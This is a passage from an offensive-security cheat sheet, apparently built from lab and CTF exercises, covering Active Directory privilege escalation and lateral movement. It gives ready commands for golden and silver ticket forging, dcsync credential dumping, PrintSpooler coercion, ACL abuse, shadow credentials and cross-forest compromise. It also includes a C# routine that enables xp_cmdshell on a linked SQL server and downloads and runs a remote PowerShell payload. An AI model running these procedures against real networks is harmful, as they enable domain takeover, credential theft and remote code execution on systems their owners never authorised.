    mv administrator@cifs_jump09.ops.comply.com@OPS.COMPLY.COM.ccache new_admin.ccache
    export KRB5CCNAME=new_admin.ccache
    ```
* Execute Commands as Administrator
  * ```powershell
    impacket-psexec administrator@backup01.corp.com -k -no-pass
    ```

</details>

<details>

<summary>Extra SID Attack (MOVING FROM CHILD TO PARENT DOMAIN)</summary>

## FOR CHILD DOMAIN TO PARENT DOMAIN EG (prod.corp1.com to corp1.com)

CAN ALSO DO FROM PARENT TO CHILD DOMAIN (eg: final.com to dev.final.com)

## Using KRBTGT

* Extracts krbtgt hash for creating a Golden Ticket
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
      ```


* Enumerate Domain & Trust Information (using powerview)
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSid -Domain corp1.com
      ```


* Forge a Golden Ticket with Extra SIDs
  *   ```powershell
      # kerberos::golden /user:<FakeUser> /domain:<OriginDomain> /sid:<OriginDomainSID> /krbtgt:<krbtgtHash> /sids:<RootDomainSID>-519 /ptt
      kerberos::golden /user:administrator /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
      ```


* Access Root Domain Controller
  *   ```powershell
      c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
      whoami /groups
      ```



## Using Trust Key

* Extract trust key
  * Name of the account is always the same as the trusted domain
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:corp1$
      ```


* Get Domain SID
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSID -Domain corp1.com
      ```


* Craft golden ticket
  *   ```powershell
      kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain>
      kerberos::golden /user:Administrator /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /rc4:d6eba9e9b9bb466be9d9d20c5584c9ef /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /target:corp1.com /ticket:ticket.kirbi
      ```


* Inject ticket with Rubeus
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:cifs/rdc01.corp1.com /ptt
      ```


* Reinject to PsExec
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:HOST/rdc01.corp1.com /ptt
      ```


* Access Root Domain Controller
  * ```powershell
    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
    whoami /groups
    ```

</details>

<details>

<summary>Abusing PrintSpool service to obtain EA Hash</summary>

* Login to server with unconstrained kerberos delegation (eg: appsrv01)
  * Can configure a server to have unconstrained kerberos delegation if domain admin
*   ```powershell
    ls \\rdc01\pipe\spoolss
    Rubeus.exe monitor /interval:5 /filteruser:RDC01$
    .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
    Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
    lsadump::dcsync /domain:corp1.com /user:corp1\administrator

    #Login via evil-winrm
    evil-winrm -i 192.168.177.60 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
    ```



</details>

<details>

<summary>Compromising An Additional Forest</summary>

* Forest trust has SID Filtering
  * Contents in the ExtraSids field are filtered, grp memberships are not blindly trusted
  * Moving from corp1.com to corp2.com
  *   ```powershell
      # Enable sidhistory (Requires DA of target corp2.com)
      netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
      # Check that TrustAttributes has TREAT_AS_EXTERNAL
      Get-DomainTrust -Domain corp2.com
      ```


* Need to find user with RID >= 1000 && user in domain local security groups so as not to be filtered (Moving from corp1.com to corp2.com)
  * ```powershell
    # Enumerate members of the corp2.com built-in administrators group
    Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
    # Enumerate Domain (using powerview)
    Get-DomainSID -Domain corp1.com
    # Extracts krbtgt hash for creating a Golden Ticket 
    lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
    kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1587569303-1110564223-1586047116 /krbtgt:6b1bca4a1f7dbd67e28d3491290e4cb3 /sids:S-1-5-21-3759240818-3619593844-2110795065-1106 /ptt
    # Laterally move to dc01
    c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
    ```

</details>

<details>

<summary>Linked SQL Servers in Forest</summary>

## Enumeration

```powershell
# Enumeration for any registered SPNs for MSSQL in prod.corp1.com
setspn -T prod -Q MSSQLSvc/*
# Enumeration of registered SPNs across domain trust
setspn -T corp1 -Q MSSQLSvc/*
setspn -T corp2.com -Q MSSQLSvc/*
```

## Exploiting

*   Login to the rdc01.corp1.com mssql server

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   Enumeration for [linked sql servers](../services/1433-mssql.md#linked-sql-servers)

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Obtaining Reverse shell from dc01.corp2.com
  * ```csharp
    String enable_xpcmd = "EXEC ('sp_configure ''show advanced options'', 1; reconfigure; EXEC sp_configure ''xp_cmdshell'', 1; reconfigure;') AT \"dc01.corp2.com\";";
    SqlCommand command = new SqlCommand(enable_xpcmd, con);
    command.ExecuteNonQuery();
    Console.WriteLine("[+] Enabled xp_cmdshell on DC01");

    String powershellCommand = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.222/runall.ps1')";
    String b64Command = Convert.ToBase64String(Encoding.Unicode.GetBytes(powershellCommand));

    String execCmd = $"EXEC ('EXEC xp_cmdshell ''powershell -EncodedCommand {b64Command}''') AT \"dc01.corp2.com\";";
    Console.WriteLine("[+] Executing payload on DC01: " + execCmd);

    command = new SqlCommand(execCmd, con);
    command.ExecuteNonQuery();

    Console.WriteLine("[+] Command executed successfully on DC01.");

    ```

</details>

<details>

<summary>Exploiting AddKeyCredentialLink</summary>

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

```
Whisker.exe add /target:ZPH-SVRMGMT1$
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Rubeus.exe asktgt /user:ZPH-SVRMGMT1$ /certificate:MIIJ… /password:"zCixoq4fEBQBRvvE" /domain:zsm.local /dc:ZPH-SVRDC01.zsm.local /getcredentials /show /ptt
klist
```

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

User's NTLM hash might be displayed:

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Trust Exploitation Against Parent Domain</summary>

EITHER USE [KRBTGT ](lateral-movement.md#extra-sid-attack-moving-from-child-to-parent-domain)or trust key listed below...

Already compromised `internal.zsm.local` --> trying to compromise parent domain `zsm.local`

Use PowerView to Enumerate the Domains SID:

```powershell
iex (new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')
Get-DomainSID -Domain internal.zsm.local
Get-DomainSID -Domain zsm.local
```

Obtain the trust key in rc4 format

```bash
.\mimikatz.exe
lsadump::trust /patch
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



```bash
Kerberos::golden /user:Administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /sids:S-1-5-21-2734290894-461713716-141835440-519 /rc4:65065df3af96b70f29606e2719000eb4 /service:krbtgt /target:zsm.local /ticket:trustkey.kirbi
# kerberos::golden /user:<USERNAME> /domain:<DOMAIN_NAME> /sid:<ORIGINAL_DOMAIN_SID> /sids:<PARENT_DOMAIN_SID>-519 /rc4:<KRB_TGT_RC4_KEY> /service:<KERBEROS_SERVICE_SP> /target:<TARGET_REALM> /ticket:<OUTPUT_TICKET_FILENAME>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
dir \\ZPH-SVRDC01.zsm.local\c$
type \\ZPH-SVRDC01.zsm.local\c$\users\administrator\desktop\flag.txt
```

</details>

<details>

<summary>Exploiting WriteOwner on group</summary>

<figure><img src="../.gitbook/assets/image (359).png" alt=""><figcaption><p>JDGODD has WriteOwner privilege over "Core staff" group</p></figcaption></figure>

```
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred

net group 'CORE STAFF'
```

<figure><img src="../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Request TGS for Administrator</summary>

Currently have sqlsvc account --> want to request a TGS ticket for administrator.

```bash
# Converting password to NTLM hash
echo -n 'Pegasus60' | iconv -t utf16le | openssl md4

# Get Domain SID using impacket-getPac
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
# OR Get Domain SID using nxc
nxc ldap dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --get-sid

# Sync the clock of attacker machine to DC
rdate -n dc1.scrm.local

# Create TGS for administrator user:
impacket-ticketer -spn "MSSQLSvc/dc1.scrm.local" -user "ksimpson" -password "ksimpson" -nthash "B999A16500B87D17EC7F2E2A68778F05" -domain scrm.local -domain-sid "S-1-5-21-2743207045-1827831105-2542523200" -dc-ip dc1.scrm.local Administrator

# Using TGS to login to MSSQL DB
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient administrator@dc1.scrm.local -k -no-pass
```

</details>

<details>

<summary>Exploiting Owning a Group &#x26;&#x26; Group GenericWrite on User</summary>

<figure><img src="../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

Ensure /etc/krb5.conf:

```bash
[libdefaults]
    default_realm = ABSOLUTE.HTB
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true
    fcc-mit-ticketflags = true
[realms]
    ABSOLUTE.HTB = {
        kdc = dc.absolute.htb
        admin_server = dc.absolute.htb
        default_domain = absolute.htb
    }

```

```bash
kinit m.lovegod

# Make the user m.lovegod owner of the group "Network Audit"
python3 /usr/share/doc/python3-impacket/examples/owneredit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
```

<figure><img src="../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash"><strong># Give full control of the Network Audit group to the user m.lovegod
</strong><strong>impacket-dacledit -k 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights WriteMembers
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

```bash
# Add the user m.lovegod to the group Network Audit
net rpc group addmem "Network Audit" m.lovegod -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
net rpc group members "Network Audit" -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb

# Check if ADCS is installed
certipy-ad find -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb

# Request new TGT and perform the attack
kinit m.lovegod
certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
```

<figure><img src="../.gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

```bash
export KRB5CCNAME=winrm_user.ccache
evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB
```

</details>

<details>

<summary>Silver-Ticket Attack (After obtaining service passwords/hashes)</summary>

2 practical ways to use them:

* Web App:&#x20;
  * When a webapp has multiple user roles and uses kerberos authentication
  * Craft a silver ticket to impersonate any user on the application --> access privileged areas
* Database:
  * Targeting a MSSQL DB, can craft a silver ticket and able to impersonate the SA user and user it to enable and execute xp\_cmdshell

### Example

* Context:&#x20;
  * Have svc\_web credentials,&#x20;
  * Webapp using kerberos authentication at [http://lusdc.lustrous.vl/Internal](http://lusdc.lustrous.vl/Internal)
*   Exploitation:

    * Convert plaintext password to NTLM hash using [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash) or Rubeus

    <figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * Find the Domain-SID using `impacket-getPac -targetUser administrator lustrous.vl/svc_web:iydgTvmujl6f` or from bloodhound

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    *   Obtain RID of `tony.ward` user from bloodhound

        <figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Crafting silver ticket
.\mimikatz.exe
kerberos::purge
kerberos::golden /sid:S-1-5-21-2355092754-1584501958-1513963426 /domain:lustrous.vl /id:1114 /target:lusdc.lustrous.vl /service:http /rc4:E67AF8B3D78DF5A02EB0D57B6CB60717 /ptt /user:tony.ward
# kerberos::golden /sid:<domain_sid> /domain:domain.com /id:<id_of_user_to_impersonate> /target:<domain> /service:<spn> /rc4:<ntlm hash> /ptt /user:<username_to_impersonate>

# View the webpage after impersonating tony.ward user
iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials
```

\-----OR use impacket-ticketer------

```bash
impacket-ticketer -nthash E67AF8B3D78DF5A02EB0D57B6CB60717 -domain-sid S-1-5-21-2355092754-1584501958-1513963426 -domain lustrous.vl -spn HTTP/lusdc.lustrous.vl -user-id 1114 tony.ward
export krb5ccname=tony.ward.ccache
firefox
```

* Have to set “network.negotiate-auth.trusted-uris” to “https://lusdc.lustrous.vl” in about:config in firefox

</details>
